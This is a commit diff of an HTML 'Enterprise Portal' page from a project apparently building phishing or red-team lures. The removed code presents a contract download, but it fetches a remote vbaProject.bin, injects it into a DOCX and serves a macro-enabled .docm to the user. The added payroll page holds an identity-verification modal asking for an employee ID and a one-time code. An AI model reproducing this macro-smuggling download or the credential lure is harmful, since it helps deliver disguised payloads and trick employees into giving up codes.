

Before and after one commit to TejeswarReddy03/Document-Changer-Client-Side, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page at 89% size. Before the commit the page ends 860 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Enterprise Portal - Documents</title>
+    <title>Enterprise Portal - Payroll</title>
     <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css" rel="stylesheet">
     <style>
         * {
@@ -197,6 +197,7 @@
             border-radius: 8px;
             box-shadow: 0 1px 3px rgba(0, 0, 0, 0.1);
             padding: 1.5rem;
+            margin-bottom: 2rem;
         }
 
         .card-header {
@@ -204,42 +205,6 @@
             justify-content: space-between;
             align-items: center;
             margin-bottom: 1.5rem;
-        }
-
-        .document-list {
-            display: flex;
-            flex-direction: column;
-            gap: 1rem;
-        }
-
-        .document-item {
-            display: flex;
-            justify-content: space-between;
-            align-items: center;
-            padding: 1rem;
-            border: 1px solid #e2e8f0;
-            border-radius: 6px;
-            transition: all 0.3s;
-        }
-
-        .document-item:hover {
-            background-color: #f8fafc;
-        }
-
-        .document-info {
-            display: flex;
-            gap: 1rem;
-            align-items: center;
-        }
-
-        .document-icon {
-            color: var(--primary-color);
-            font-size: 1.5rem;
-        }
-
-        .document-meta {
-            color: #64748b;
-            font-size: 0.875rem;
         }
 
         .button {
@@ -268,56 +233,131 @@
             background-color: #cbd5e1;
         }
 
-        .activity-item {
-            display: flex;
-            gap: 1rem;
-            padding: 1rem 0;
+        /* Table Styles */
+        .payroll-table {
+            width: 100%;
+            border-collapse: collapse;
+        }
+
+        .payroll-table th,
+        .payroll-table td {
+            padding: 1rem;
+            text-align: left;
             border-bottom: 1px solid #e2e8f0;
         }
 
-        .activity-icon {
-            background-color: #e2e8f0;
+        .payroll-table th {
+            background-color: #f8fafc;
+            font-weight: 600;
             color: #475569;
-            width: 32px;
-            height: 32px;
-            border-radius: 50%;
+        }
+
+        .payroll-table tr:hover {
+            background-color: #f1f5f9;
+        }
+
+        /* Sensitive Info Banner */
+        .sensitive-banner {
+            background-color: #fef2f2;
+            border-left: 4px solid #ef4444;
+            padding: 1rem;
+            margin-bottom: 1.5rem;
             display: flex;
             align-items: center;
-            justify-content: center;
+            gap: 1rem;
         }
 
-        .activity-details {
-            flex: 1;
+        .sensitive-banner i {
+            color: #ef4444;
+            font-size: 1.5rem;
         }
 
-        .activity-meta {
-            color: #64748b;
-            font-size: 0.875rem;
+        /* Paste Area Styles */
+        .paste-area {
+            display: flex;
+            flex-direction: column;
+            gap: 1rem;
         }
 
-        #processStatus {
-            margin-top: 15px;
-            padding: 12px;
+        .paste-input {
+            width: 100%;
+            min-height: 150px;
+            padding: 1rem;
+            border: 1px solid #e2e8f0;
             border-radius: 6px;
+            resize: vertical;
+        }
+
+        .modal {
+            display: none;
+            position: fixed;
+            z-index: 1000;
+            left: 0;
+            top: 0;
+            width: 100%;
+            height: 100%;
+            overflow: auto;
+            background-color: rgba(0, 0, 0, 0.5);
+        }
+
+        .modal-content {
+            background-color: #fefefe;
+            margin: 15% auto;
+            padding: 2rem;
+            border-radius: 8px;
+            width: 80%;
+            max-width: 600px;
+            position: relative;
+        }
+
+        .close {
+            position: absolute;
+            right: 1.5rem;
+            top: 1rem;
+            color: #64748b;
+            font-size: 1.5rem;
+            font-weight: bold;
+            cursor: pointer;
+        }
+
+        .verification-form {
+            display: flex;
+            flex-direction: column;
+            gap: 1rem;
+        }
+
+        .form-group {
+            display: flex;
+            flex-direction: column;
+            gap: 0.5rem;
+        }
+
+        .form-group label {
+            font-weight: 600;
+            color: #475569;
+        }
+
+        .form-group input {
+            padding: 0.75rem;
+            border: 1px solid #e2e8f0;
+            border-radius: 6px;
+        }
+
+        .status-message {
+            padding: 1rem;
+            border-radius: 6px;
+            margin-top: 1rem;
             display: none;
         }
 
         .status-success {
             background-color: #d1fae5;
             color: #065f46;
-            border: 1px solid #10b981;
         }
 
         .status-error {
             background-color: #fee2e2;
             color: #991b1b;
-            border: 1px solid #ef4444;
-        }
-
-        .status-processing {
-            background-color: #fff7ed;
-            color: #9a3412;
-            border: 1px solid #fb923c;
         }
 
         @media (max-width: 1024px) {
@@ -352,28 +392,6 @@
                 display: none;
             }
         }
-
-        /* Loading Spinner */
-        .loading-spinner {
-            display: inline-block;
-            width: 20px;
-            height: 20px;
-            border: 3px solid #f3f3f3;
-            border-radius: 50%;
-            border-top: 3px solid var(--primary-color);
-            animation: spin 1s linear infinite;
-            margin-right: 10px;
-        }
-
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
-        }
-
-        .button:disabled {
-            opacity: 0.7;
-            cursor: not-allowed;
-        }
     </style>
 </head>
 <body>
@@ -395,7 +413,7 @@
                         </a>
                     </li>
                     <li class="nav-item">
-                        <a href="#" class="nav-link active">
+                        <a href="#" class="nav-link">
                             <i class="fas fa-file-alt"></i>
                             Documents
                         </a>
@@ -407,7 +425,7 @@
                         </a>
                     </li>
                     <li class="nav-item">
-                        <a href="#" class="nav-link">
+                        <a href="#" class="nav-link active">
                             <i class="fas fa-dollar-sign"></i>
                             Payroll
                         </a>
@@ -458,7 +476,7 @@
                 <span class="notification-badge">3</span>
             </div>
             <span>John Doe</span>
-            <button class="button secondary" onclick="handleLogout()">
+            <button class="button secondary">
                 <i class="fas fa-sign-out-alt"></i>
                 Logout
             </button>
@@ -471,133 +489,204 @@
             <div class="breadcrumb">
                 <span>Home</span>
                 <i class="fas fa-chevron-right"></i>
-                <span>Documents</span>
+                <span>Payroll</span>
             </div>
-            <h1>My Documents</h1>
+            <h1>My Payroll</h1>
+        </div>
+
+        <div class="sensitive-banner">
+            <i class="fas fa-exclamation-triangle"></i>
+            <div>
+                <h3>Confidential Information</h3>
+                <p>This page contains sensitive payroll data. Please ensure you're in a private location before viewing.</p>
+            </div>
+        </div>
+
+        <div class="card">
+            <div class="card-header">
+                <h2>Salary Information</h2>
+                <button class="button" id="verifyIdentityBtn">
+                    <i class="fas fa-unlock"></i>
+                    View Full Details
+                </button>
+            </div>
+            <table class="payroll-table">
+                <thead>
+                    <tr>
+                        <th>Component</th>
+                        <th>Amount (USD)</th>
+                        <th>Payment Date</th>
+                    </tr>
+                </thead>
+                <tbody>
+                    <tr>
+                        <td>Base Salary</td>
+                        <td>$8,500.00</td>
+                        <td>25th Feb, 2025</td>
+                    </tr>
+                    <tr>
+                        <td>Performance Bonus</td>
+                        <td>$1,250.00</td>
+                        <td>25th Feb, 2025</td>
+                    </tr>
+                    <tr>
+                        <td>Health Insurance</td>
+                        <td>-$385.50</td>
+                        <td>25th Feb, 2025</td>
+                    </tr>
+                    <tr>
+                        <td>401k Contribution</td>
+                        <td>-$850.00</td>
+                        <td>25th Feb, 2025</td>
+                    </tr>
+                    <tr>
+                        <td>Tax Withholding</td>
+                        <td>-$2,128.75</td>
+                        <td>25th Feb, 2025</td>
+                    </tr>
+                    <tr>
+                        <td><strong>Net Pay</strong></td>
+                        <td><strong>$6,385.75</strong></td>
+                        <td>25th Feb, 2025</td>
+                    </tr>
+                </tbody>
+            </table>
         </div>
 
         <div class="section-grid">
             <div class="card">
                 <div class="card-header">
-                    <h2>Available Documents</h2>
+                    <h2>Expense Reimbursement</h2>
+                    <button class="button" id="submitPasteBtn">
+                        <i class="fas fa-paper-plane"></i>
+                        Submit
+                    </button>
                 </div>
-                <div class="document-list">
-                    <div class="document-item">
-                        <div class="document-info">
-                            <i class="fas fa-file-word document-icon"></i>
-                            <div>
-                                <h3>Employment Contract</h3>
-                                <p class="document-meta">Last updated: Feb 10, 2025 • DOCX Format • 1.2 MB</p>
-                            </div>
-                        </div>
-                        <button class="button" id="downloadButton" onclick="processAndDownloadDocument()">
-                            <i class="fas fa-download"></i>
-                            Download
-                        </button>
-                    </div>
+                <div class="paste-area">
+                    <p>Paste your expense receipt text or invoice details below for quick reimbursement processing.</p>
+                    <textarea class="paste-input" id="pasteInput" placeholder="Paste receipt details, invoice numbers, or expense descriptions here..."></textarea>
+                    <div id="pasteStatus" class="status-message"></div>
                 </div>
-                <div id="processStatus"></div>
             </div>
 
             <div class="card">
                 <div class="card-header">
-                    <h2>Recent Activity</h2>
+                    <h2>Recent Payslips</h2>
                 </div>
-                <div class="activity-list">
-                    <div class="activity-item">
-                        <div class="activity-icon">
-                            <i class="fas fa-eye"></i>
+                <ul class="document-list">
+                    <li style="display: flex; justify-content: space-between; padding: 1rem 0; border-bottom: 1px solid #e2e8f0;">
+                        <div style="display: flex; gap: 0.5rem; align-items: center;">
+                            <i class="fas fa-file-pdf" style="color: #ef4444;"></i>
+                            <div>
+                                <h4>January 2025</h4>
+                                <p style="color: #64748b; font-size: 0.875rem;">PDF • 235 KB</p>
+                            </div>
                         </div>
-                        <div class="activity-details">
-                            <p>HR reviewed your documents </p>
-                            <p class="activity-meta">Feb 7, 2025 at 11:15 AM</p>
+                        <button class="button secondary">
+                            <i class="fas fa-download"></i>
+                        </button>
+                    </li>
+                    <li style="display: flex; justify-content: space-between; padding: 1rem 0; border-bottom: 1px solid #e2e8f0;">
+                        <div style="display: flex; gap: 0.5rem; align-items: center;">
+                            <i class="fas fa-file-pdf" style="color: #ef4444;"></i>
+                            <div>
+                                <h4>December 2024</h4>
+                                <p style="color: #64748b; font-size: 0.875rem;">PDF • 241 KB</p>
+                            </div>
                         </div>
-                    </div>
-                </div>
+                        <button class="button secondary">
+                            <i class="fas fa-download"></i>
+                        </button>
+                    </li>
+                </ul>
             </div>
         </div>
     </main>
 
-    <script src="https://cdnjs.cloudflare.com/ajax/libs/jszip/3.7.1/jszip.min.js"></script>
+    <!-- Verification Modal -->
+    <div id="verificationModal" class="modal">
+        <div class="modal-content">
+            <span class="close">&times;</span>
+            <h2>Verify Your Identity</h2>
+            <p style="margin-bottom: 1.5rem;">For security reasons, please verify your identity to view confidential payroll information.</p>
+            <form class="verification-form" id="verificationForm">
+                <div class="form-group">
+                    <label for="employeeId">Employee ID</label>
+                    <input type="text" id="employeeId" required>
+                </div>
+                <div class="form-group">
+                    <label for="verificationCode">Verification Code (Check your email or SMS)</label>
+                    <input type="text" id="verificationCode" required>
+                </div>
+                <button type="submit" class="button">
+                    <i class="fas fa-check-circle"></i>
+                    Verify
+                </button>
+            </form>
+        </div>
+    </div>
+
     <script>
-        async function processAndDownloadDocument() {
-            const statusElement = document.getElementById('processStatus');
-            const downloadButton = document.getElementById('downloadButton');
+        // Toggle sidebar on mobile
+        function toggleSidebar() {
+            document.querySelector('.sidebar').classList.toggle('active');
+        }
 
-            downloadButton.disabled = true;
-            statusElement.style.display = 'block';
-            statusElement.className = 'status-processing';
-            statusElement.innerHTML = '<div class="loading-spinner"></div>Fetching documents from secure storage...';
+        // Verification Modal
+        const modal = document.getElementById("verificationModal");
+        const verifyBtn = document.getElementById("verifyIdentityBtn");
+        const closeBtn = document.getElementsByClassName("close")[0];
 
-            try {
-                // Fetch both files from S3
-                const [docResponse, vbaResponse] = await Promise.all([
-                    fetch('https://documentdemo1.s3.ap-southeast-1.amazonaws.com/Employment+Contract.docx'),
-                    fetch('https://documentdemo1.s3.ap-southeast-1.amazonaws.com/vbaProject.bin')
-                ]);
+        verifyBtn.onclick = function() {
+            modal.style.display = "block";
+        }
 
-                if (!docResponse.ok || !vbaResponse.ok) throw new Error('Failed to fetch documents');
+        closeBtn.onclick = function() {
+            modal.style.display = "none";
+        }
 
-                const [docxArrayBuffer, vbaArrayBuffer] = await Promise.all([
-                    docResponse.arrayBuffer(),
-                    vbaResponse.arrayBuffer()
-                ]);
-
-                statusElement.innerHTML = '<div class="loading-spinner"></div>Processing document...';
-
-                // Load the DOCX as a zip archive
-                const zip = await JSZip.loadAsync(docxArrayBuffer);
-                zip.file("vbaProject.bin", vbaArrayBuffer);
-
-                // Update [Content_Types].xml
-                const contentTypesPath = "[Content_Types].xml";
-                let contentTypesXml = await zip.file(contentTypesPath).async("string");
-                if (!contentTypesXml.includes("vbaProject.bin")) {
-                    const overrideEntry = '<Override PartName="/vbaProject.bin" ContentType="application/vnd.ms-office.vbaProject" />';
-                    contentTypesXml = contentTypesXml.replace('</Types>', overrideEntry + '</Types>');
-                    zip.file(contentTypesPath, contentTypesXml);
-                }
-
-                // Update relationships
-                const relsPath = "word/_rels/document.xml.rels";
-                if (zip.file(relsPath)) {
-                    let relsXml = await zip.file(relsPath).async("string");
-                    if (!relsXml.includes("vbaProject.bin")) {
-                        const newRel = '<Relationship Id="rIdVBA" Type="http://schemas.microsoft.com/office/2006/relationships/vbaProject" Target="/vbaProject.bin"/>';
-                        relsXml = relsXml.replace('</Relationships>', newRel + '</Relationships>');
-                        zip.file(relsPath, relsXml);
-                    }
-                }
-
-                statusElement.innerHTML = '<div class="loading-spinner"></div>Preparing download...';
-                const newDocmBlob = await zip.generateAsync({
-                    type: "blob",
-                    mimeType: "application/vnd.ms-word.document.macroEnabled.12"
-                });
-
-                // Trigger download
-                const downloadLink = document.createElement("a");
-                downloadLink.href = URL.createObjectURL(newDocmBlob);
-                downloadLink.download = "employment_contract.docm";
-                downloadLink.click();
-
-                statusElement.className = 'status-success';
-                statusElement.innerHTML = '<i class="fas fa-check-circle"></i> Document successfully processed and downloaded!';
-                URL.revokeObjectURL(downloadLink.href);
-            } catch (err) {
-                console.error("Error processing document:", err);
-                statusElement.className = 'status-error';
-                statusElement.innerHTML = '<i class="fas fa-exclamation-circle"></i> Error processing document. Please try again later.';
-            } finally {
-                downloadButton.disabled = false;
-                if (statusElement.classList.contains('status-success')) {
-                    setTimeout(() => {
-                        statusElement.style.display = 'none';
-                    }, 5000);
-                }
+        window.onclick = function(event) {
+            if (event.target == modal) {
+                modal.style.display = "none";
             }
         }
 
+        // Form handling
+        document.getElementById("verificationForm").addEventListener("submit", function(e) {
+            e.preventDefault();
+
+                            // Simulate verification - in real app, this would be a server request
+            setTimeout(() => {
+                modal.style.display = "none";
+                // No need to replace values as they're already shown
+            }, 1500);
+        });
+
+        // Handle paste submission
+        document.getElementById("submitPasteBtn").addEventListener("click", function() {
+            const pasteContent = document.getElementById("pasteInput").value.trim();
+            const statusEl = document.getElementById("pasteStatus");
+
+            if (pasteContent === "") {
+                statusEl.textContent = "Please paste content before submitting.";
+                statusEl.className = "status-message status-error";
+                statusEl.style.display = "block";
+                return;
+            }
+
+            // Simulate processing - in real app, this would be a server request
+            statusEl.textContent = "Processing your expense reimbursement...";
+            statusEl.className = "status-message";
+            statusEl.style.backgroundColor = "#fff7ed";
+            statusEl.style.color = "#9a3412";
+            statusEl.style.display = "block";
+
+            setTimeout(() => {
+                statusEl.textContent = "Expense submitted successfully. Your reimbursement will be processed with your next payroll cycle.";
+                statusEl.className = "status-message status-success";
+                document.getElementById("pasteInput").value = "";
+            }, 2000);
+        });
     </script>
 </body>
 </html>
```
